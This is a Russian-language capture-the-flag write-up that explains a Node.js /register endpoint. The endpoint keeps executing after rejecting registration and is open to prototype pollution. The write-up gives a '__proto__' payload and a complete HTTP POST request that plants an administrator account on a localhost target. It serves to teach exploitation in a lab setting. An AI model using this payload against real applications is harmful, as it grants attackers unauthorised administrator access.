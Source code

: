 # Highloady writeup

Решающий после того как ознакомился с исходными кодами задачи, которые были приложены в ее описании, должен обратить внимание на фунцию логику эндпоинта `/register`.

```js
const REGISTRATION_OPEN = false

app.post("/register", (req, res) => {
  try {
    const { body } = req
    if (!REGISTRATION_OPEN) {
      res.send("Registration closed :(")
    }
    addUser(body)
    res.send("Success!")
  } catch {}
})
```
Можно заметить, что выполнение функции не заканчивается после вызова `res.send` с аргументом `Registerion closed :(`, а это значит что мы можем вызвать функцию `addUser`.

Рассмотрим функцию `addUser`.
```js
const addUser = user => {
  if (Object.keys(users).includes(user.username) || user.isAdmin) {
    return
  }

  users[user.username] = {
    ...user,
    password: md5(user.password),
    isAdmin: false
  }
}
```

Мы можем видить проверку на то, что имя пользователя не занято и что создаваемый пользователь не является админом.
Однако, как решающий мог заметить, эта функция уязвима к prototype pollution. Мы можем изменить прототип объекта `users` добавив туда объект вида:

```js
{
    username: {
        username: "username",
        password: "md5(password)",
        isAdmin: true
    }
}
```

Тем самым мы "добавляем" пользователя с правами администратора ведь при обращении `users["username"]` мы получим объект указанный выше.

Чтобы сделать prototype pollution нужно вызвать функцию addUser со следующим аргументом:
```js
{
    username: "__proto__",
    password: "11231313",
    testuser: {
        username: "testuser",
        password: "5d9c68c6c50ed3d02a2fcf54f63993b6", // md5(testuser)
        isAdmin: true
    }
}
```
После этого вызова фунции addUser с этим аргументом мы сможем авторизоваться при помощи логина testuser и пароля testuser, причем данный пользователь будет админом.

Чтобы решить задачу надо было сделать следующий запрос

```
POST /register HTTP/1.1
Host: localhost:5000
Content-Type: application/x-www-form-urlencoded
Referer: http://localhost:5000/
Content-Length: 119

username=__proto__&testuser[username]=testuser&testuser[password]=5d9c68c6c50ed3d02a2fcf54f63993b6&testuser[isAdmin]=1&password=123
``````

